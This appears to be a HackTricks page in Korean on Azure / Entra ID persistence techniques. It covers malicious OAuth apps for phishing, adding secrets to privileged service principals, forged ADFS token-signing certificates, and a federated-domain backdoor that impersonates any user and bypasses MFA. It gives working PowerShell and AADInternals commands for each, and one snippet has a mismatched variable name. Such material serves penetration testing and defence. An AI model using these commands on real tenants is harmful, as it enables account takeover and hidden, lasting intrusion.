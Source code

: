 # Az - Persistence

{{#include ../../../banners/hacktricks-training.md}}

### OAuth 애플리케이션

기본적으로, 모든 사용자는 Entra ID에 애플리케이션을 등록할 수 있습니다. 따라서 관리자의 동의가 필요한 높은 영향력의 권한을 가진 애플리케이션(대상 테넌트 전용)을 등록할 수 있습니다(관리자라면 승인할 수 있습니다) - 예를 들어 사용자를 대신하여 메일을 보내거나, 역할 관리를 하는 등의 작업입니다. 이는 성공할 경우 매우 **결실을 맺을** 수 있는 **피싱 공격을 실행**할 수 있게 해줍니다.

게다가, 사용자가 해당 애플리케이션을 수락하여 접근을 유지할 수도 있습니다.

### 애플리케이션 및 서비스 주체

애플리케이션 관리자, GA 또는 microsoft.directory/applications/credentials/update 권한이 있는 사용자 정의 역할의 권한으로, 기존 애플리케이션에 자격 증명(비밀 또는 인증서)을 추가할 수 있습니다.

**높은 권한을 가진 애플리케이션을 타겟팅**하거나 **높은 권한을 가진 새로운 애플리케이션을 추가**하는 것이 가능합니다.

애플리케이션에 추가할 흥미로운 역할은 **특권 인증 관리자 역할**로, 이는 글로벌 관리자의 **비밀번호를 재설정**할 수 있게 해줍니다.

이 기술은 또한 **MFA를 우회**할 수 있게 해줍니다.
```bash
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
- 인증서 기반 인증을 위해
```bash
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federation - Token Signing Certificate

**DA 권한**으로 온프레미스 AD에서 **새로운 Token signing** 및 **Token Decrypt certificates**를 생성하고 가져올 수 있습니다. 이 인증서는 매우 긴 유효 기간을 가집니다. 이를 통해 우리가 아는 ImuutableID를 가진 **모든 사용자로 로그인**할 수 있습니다.

**ADFS 서버에서 DA로** 아래 명령어를 실행하여 새로운 인증서를 생성하고 (기본 비밀번호 'AADInternals'), 이를 ADFS에 추가하고, 자동 롤오버를 비활성화한 후 서비스를 재시작합니다:
```bash
New-AADIntADFSSelfSignedCertificates
```
그런 다음 Azure AD로 인증서 정보를 업데이트합니다:
```bash
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

GA 권한이 있는 테넌트에서 **새 도메인 추가** (검증 필요), 인증 유형을 Federated로 설정하고 도메인이 **특정 인증서** (아래 명령의 any.sts) 및 발급자를 **신뢰하도록** 구성할 수 있습니다:
```bash
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## References

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{{#include ../../../banners/hacktricks-training.md}}
